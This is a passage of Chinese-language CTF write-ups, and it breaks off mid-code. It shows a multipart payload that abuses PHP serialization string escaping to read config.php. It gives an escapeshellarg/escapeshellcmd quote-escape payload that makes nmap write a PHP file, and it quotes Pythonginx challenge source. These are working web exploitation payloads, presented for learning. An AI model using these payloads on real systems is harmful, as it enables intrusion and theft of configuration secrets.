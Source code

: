 最终 payload：
```
------WebKitFormBoundary8V1KsQLRGLqfB6An
Content-Disposition: form-data; name="phone"

12345678901
------WebKitFormBoundary8V1KsQLRGLqfB6An
Content-Disposition: form-data; name="email"

admin@admin.com
------WebKitFormBoundary8V1KsQLRGLqfB6An
Content-Disposition: form-data; name="nickname[]"

wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php
------WebKitFormBoundary8V1KsQLRGLqfB6An
Content-Disposition: form-data; name="photo"; filename="1.png"
Content-Type: image/png

config.php
------WebKitFormBoundary8V1KsQLRGLqfB6An--
```

## [BUUCTF 2018]Online Tool

[参考文章](https://paper.seebug.org/164/)。

简单来说，`escapeshellarg` 会对传入参数中的单引号进行转义，然后将单引号两边的内容用 `''` 包起来；而 `escapeshellcmd` 会对转义符 `\` 以及不成对的单引号进行转义。那么先 `escapeshellarg` 再 `escapeshellcmd` 就会造成单引号逃逸。

payload：
```
?host='<?php echo phpinfo();?> -oG 1.php '
```

经过 `escapeshellarg`：
```
?host=''\' '<?php echo phpinfo();?> -oG 1.php'\'''
```

经过 `escapeshellcmd`：
```
?host=''\\' '\<\?php echo phpinfo\(\)\;\?\> -oG 1.php'\\'''
```

然后访问沙箱即可。

## [SUCTF 2019]Pythonginx

```py
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222" + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split('')[0]
    host = parse.urlparse(finalUrl).hostname
```